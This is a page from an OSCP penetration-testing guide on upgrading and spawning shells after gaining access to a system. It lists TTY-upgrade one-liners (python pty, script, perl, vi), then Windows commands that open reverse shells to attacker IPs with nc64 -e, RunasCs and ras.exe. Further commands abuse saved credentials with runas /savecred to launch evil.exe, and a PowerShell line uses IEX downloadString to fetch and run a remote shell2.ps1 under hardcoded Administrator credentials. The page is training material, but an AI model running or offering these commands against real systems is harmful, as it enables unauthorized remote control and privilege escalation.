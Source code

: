 Spawning Shells · Total OSCP Guide
==================================



<https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html>

Non-interactive tty-shell
If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run su, sudo for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

## Using python

    python -c 'import pty; pty.spawn("/bin/sh")'
    
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    
ou

    python3 -c 'import pty; pty.spawn("/bin/bash")'


    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
<Ctrl + Z>

    stty raw -echo; fg
    reset
    
    
## Script

    script /dev/null -c bash
<Ctrl + Z>
    
    stty raw -echo; fg
    reset
    
## Echo

    echo 'os.system('/bin/bash')'

## sh

    /bin/sh -i

## bash

    /bin/bash -i

## Perl

    perl -e 'exec "/bin/sh";'

## From within VI

    :!bash
    
    
## Windows cmd

    runas/user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
    
    ### Runas

    cmdkey /list
    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
    runas /savecred /user:Administrator "cmd.exe /k whoami"
    
        ./ras.exe gpoadm "Password123!" cmd -r 10.8.1.121:8082
    ./ras.exe gpoadm "Password123!" -l 3 cmd -r 10.8.1.121:8082
    ./ras.exe gpoadm "Password123!" -l 3 cmd /c c:\temp\n.exe -e cmd 10.8.1.121 8082"
	   ./ras.exe gpoadm "Password123!" -i -l 3 "cmd /c c:\temp\n.exe -e cmd 10.8.1.121 8082"
	   
    RunasCs.exe user password powershell -r 1192.168.0.76:4444 --bypass-uac
    
## windows powershell

    $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred